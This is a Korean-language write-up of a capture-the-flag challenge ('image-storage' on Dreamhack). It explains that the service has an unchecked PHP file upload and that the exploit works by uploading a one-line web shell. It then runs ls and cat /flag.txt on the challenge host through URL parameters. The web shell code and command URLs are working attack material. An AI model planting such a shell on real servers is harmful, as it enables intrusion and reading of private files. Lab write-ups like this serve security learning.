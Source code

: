 ## 📍image-storage

```
php로 작성된 파일 저장 서비스입니다.
파일 업로드 취약점을 이용해 플래그를 획득하세요. 플래그는 `/flag.txt`에 있습니다.
```

이런 구조로 되어 있다.

![[{0D362402-3485-4BD2-9A1E-3CD287E7B182}.png]]

![[{22A765A1-9525-4935-9E30-C84DED1D3FEA}.png]]

아무 파일이나 업로드하면 `/upload.php`로 이동하며 저장된 경로를 보여준다.

![[{6A4917FA-988E-42BD-A197-6BF662234EBF}.png]]

List로 가보면 업로드된 폴더명과 파일명이 보인다.

![[{8893849E-0119-475A-BA23-4ED0B18086E3}.png]]


#### 소스코드

upload.php는 이용자가 업로드한 파일을 `uploads` 폴더에 복사한다.
![[{2122089A-A492-40EB-8E35-AA978022BC29}.png]]


#### 취약점

업로드한 파일에 대해 아무 검사도 하지 않으므로 웹 셸 업로드 공격에 취약하다.


#### 해결

php 웹셸을 업로드하고 방문하면 서버의 셸을 획득할 수 있다.

```php
<?php
	system($_GET[cmd]);
?>

/* 이런 파일을 업로드 하고
?cmd=ls를 URL로 주면 공격 가능! */
```

구글링해서 찾은 웹셸을 `.php`로 저장하고 업로드한 뒤 저장된 경로로 들어간다.

```
http://host3.dreamhack.games:21649/uploads/webshell.php
```

여기서 `?cmd=ls`를 URL로 주면 공격 가능하다고 되어 있다. 넣어보면 커맨드가 작동한다.
![[{C51C5155-A75E-4758-A618-93CB0A226AB4}.png]]

상위 경로로 가본다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20../
```
![[{C924132D-06F3-4A27-92E1-30D4AA6D2F97}.png]]
- `%20`: URL에서 공백을 나타냄

루트 경로로 찾아간다.
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=ls%20/
```
![[{030E2FDE-D5B3-488A-8BC3-D4641C3E22F4}.png]]

`flag.txt`의 경로를 알아냈으니, `cat` 커맨드로 `flag.txt`를 읽어보면 끝!
```
http://host3.dreamhack.games:21649/uploads/webshell.php?cmd=cat%20/flag.txt
```
![[{B6803AEE-18CB-4AF2-821F-C99892977B48}.png]]
